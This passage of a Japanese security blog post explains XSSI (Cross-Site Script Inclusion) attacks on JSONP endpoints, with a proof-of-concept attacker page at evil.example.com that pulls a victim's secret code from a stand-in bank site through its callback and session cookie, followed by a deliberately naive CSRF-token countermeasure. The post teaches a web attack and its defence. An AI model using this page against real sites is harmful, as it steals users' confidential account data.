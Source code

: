 とあります。(ﾉ∀`)ｱﾁｬｰ  
  
　先に説明した「Same-Origin Policy」を回避する手段としてこの仕組みが存在していますが、回避できるということは、外部ドメインからそのリソースにアクセス可能であることを意味します。  
  
　Wikiを読み進めていくと下記の文言があります。
>scriptタグを埋め込む側においては、リモートサイトは任意の内容のデータをページに差し込むことが可能であるため、その<b>リモートサイトが悪意のあるサイト</b>である場合やJavaScriptインジェクションに対する脆弱性がある場合は、<b>その脆弱性を突かれることで、アカウント情報を盗まれたり</b>、元のサイトも影響を受けたりする可能性がある。

　その脆弱性を悪用する攻撃がこそが「<b>XSSI（Cross-Site Script Inclusion）攻撃</b>」ということになります。  

#### 攻撃者が用意したサイト (evil.example.com)

　アクセスの際、シークレットコードが読み取られていることが確認できます。  
仕組みは非常に単純です。  

[f:id:motikan2010:20180303215301p:plain]

##### トップページ (index.html)

<div class="md-code" style="width:100%">
```html
<!DOCTYPE html>
<html>
<head>
    <title>www.evil.example.com</title>
</head>
<body>
<h3>www.evil.example.com</h3>

<script type="text/javascript">
displaySecretData = function(secretDate) {
    alert(secretDate['secret_code']);
};
</script>
<script src="http://bank.example.jp/unsecure/userdata.php?callback=displaySecretData"></script>
</body>
</html>
```
</div>

<div class="md-code" style="width:100%">
```html
<script src="http://bank.example.jp/unsecure/userdata.php?callback=displaySecretData"></script>
```
</div>
というscriptタグが含まれています。  
　ブラウザは「 `http://bank.example.jp` 」というドメインにアクセスするので、セッション情報が格納されているCookieを送信します。セッション情報からシークレットコードという機密情報が取得されレスポンスとして返却されます。
その返却先が罠サイトであるため、取得した情報をアラートとして表示しています。アラートではなく攻撃者元にその情報を送信することも可能です。  

## 対策

#### CSRFトークンによる対策

<span style="color: #ff0000">※ここで使用しているCSRFトークンは、安易な実装であり、実際に使えないものです。</span>    
JavaScriptを読み込む時にCSRFトークンをGETパラメータに含めるように修正しました。
<div class="md-code" style="width:100%">
```
scriptTag.src = "userdata.php?callback=displaySecretData&csrf_token=<?php echo $csrfToken ?>";
```
</div>
　データの取得にCSRF対策をするのはなかなか新鮮ですね。
[f:id:motikan2010:20180303221119p:plain]
